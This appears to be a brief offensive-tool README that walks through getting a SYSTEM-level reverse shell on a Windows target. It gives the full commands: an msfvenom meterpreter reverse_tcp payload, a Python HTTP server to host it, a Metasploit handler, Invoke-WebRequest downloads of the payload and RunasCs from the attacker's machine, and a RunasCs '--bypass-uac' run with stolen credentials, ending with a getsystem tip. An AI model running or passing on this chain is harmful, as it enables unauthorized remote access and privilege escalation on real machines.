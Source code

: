 #Exploit #AD #Payload #Tool 
#### An AD tool to get a root shell with bypassing the uac system.


## Metasploit

````
# Generate the payload with msfvenom

- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=4444 -f exe > shell_reverse.exe

# Start a Python HTTP server to host the payload and RunasCs script

- python3 -m http.server 8000 &

# Start Metasploit console and configure the handler for the reverse shell

- msfconsole -q use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 10.10.X.X; set LPORT 4444; run
````


## Invoke-RunasCs.ps1

#### Get the files from FireFox and to your target machine:

````
Invoke-WebRequest -Uri "http://10.10.X.X:8000/RunasCs-1.5/Invoke-RunasCs.ps1" -OutFile "C:\Users\WAO\Documents\RunasCs.(exe/ps1)"

Invoke-WebRequest -Uri "http://10.10.X.X:8000/shell_reverse.exe" -OutFile "C:\Users\WAO\Documents\Reverseshell.exe"
````


## Run RunasCs.exe

#### Now run that command bellow:


`.\RunasCs.(exe/ps1) --bypass-uac -l 5 <USER> <PASS> "Reverseshell.exe"`

#### Don't forget the `getsystem` at the end of your metasploit session.